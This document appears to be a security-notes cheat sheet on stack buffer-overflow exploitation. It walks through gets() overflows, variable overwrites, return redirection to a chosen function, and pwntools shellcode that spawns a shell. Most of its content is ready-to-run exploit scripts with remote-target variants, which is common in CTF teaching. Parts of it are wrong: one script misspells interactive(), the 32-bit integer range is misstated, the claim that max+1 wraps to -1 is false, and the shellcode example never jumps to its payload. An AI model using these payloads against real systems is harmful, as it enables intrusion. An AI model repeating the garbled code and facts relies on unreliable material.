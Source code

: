 ```yaml
---
title: Binary Exploitation with Buffer Overflow Attack
description: Buffer overflow occurs when a program attempts to write more data to a buffer, or temporary data storage area, than it can hold. This can result in overwriting adjacent memory locations, potentially causing the program to crash or even allowing an attacker to execute arbitrary code on the target system. In the context of binary exploitation, this attack can be used to gain control of the program flow and redirect it to run attacker-controlled code, known as shellcode.
tags:
    - Reverse Engineering
refs:
date: 2023-02-12
draft: false
---
```


## gets() Function

The **`gets()`** function in C is vulnerable to lead to overflow of buffer size.  
Below is an example of the assembly.

```sh
int64_t var_4h;
sym.imp.gets(&var_4h);
```

It may cause unexpected behavior.

### Exploitation

Abuse input/output by typing a lot of characters more than the program expects..

```sh
./example

Type something:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

### Exploitation using Pwntools

```python
from pwn import *

context.update(arch="amd64", os="linux")

payload = b"A" * 200

p = process('./example') # p = remote('example.com', '1337')
p.sendline(payload) # or p.send(payload + b"\n")
p.intereactive()
```

<br />

## Overriding Variables

The program executes input/output by gets() or scanf(), and limit the buffer size of the variable, we can modify the variable then lead to unexpected behavior.  
For instance, assume the program is as follow.

```sh
rizin -d ./example
[0x0000]> aaa

# Disassemble the function
[0x0000]> pdf @ main
# An example result
sub   rsp, 0x70
call  sym.imp.__isoc99_scanf       ; int scanf(const char *format)
cmp   dword [rbp-0x4], 0xdeadbeef
jne   0x5569e8600992
lea   rdi, str.bin_sh              ; "/bin/sh"
ret
```

First find the distance from the stack pointer to rbp-0x4 (0x04).

```python
python3
>>> int(0x70-0x4)
108
```

### Exploitation using Pwntools

```python
from pwn import *

context.update(arch="amd64", os="linux")

payload = b"A" * 108
payload += p32(0xdeadbeef)

p = process('./example') # p = remote('example.com', '1337') for remote connection
p.sendline(payload)
p.interactive()
```

<br />

## Overriding the Next Call

If the program uses **get()** or **scanf()**, we can specify the address of the desired calls by overwriting the address.  
Assume the program has the above two functions.

```sh
0x0040158c  main
0x00401194  vuln_fn
```

For instance, if we want to call the **“vuln_fn”** function,  override the address of the next call using buffer overflow.

### Exploitation

```python
from pwn import *

context.update(arch="amd64", os="linux")

elf = context.binary = ELF("./example")

payload = b"A" * 32
# Give the address of the desired function.
payload += p64(elf.sym["vuln_fn"])
# or if PIE is disabled, we can set the address directly.
# payload += p64(0x00401194)

p = process('./example') # p = remote('example.com', '1337') for remote connection.

p.sendline(payload)
p.interactive()
```

<br />

## Shellcode

We can create the crafted shell code and override the address to execute the shell code.  
Use **Pwntools** to create the shell code.

```python
from pwn import *

context.update(arch="amd64", os="linux")

payload = b"A" * 50 + b"B" * 8
payload += asm(shellcraft.sh())

p = process('./example') # p = remote('example.com', '1337') for remote connection
p.sendline(payload)
p.interactive()
```

<br />

## Integer Overflow

If the program processes integer values with input/output, we can abuse it by overflow of integer.  
The range of 32-bit integer is **-2147483647 to 2147483647**, so if we type the max value +1 in input for instance, the result is -1. This is because

```bash
./example

Type number:
>> 2147483648
The number you entered is -1.
```
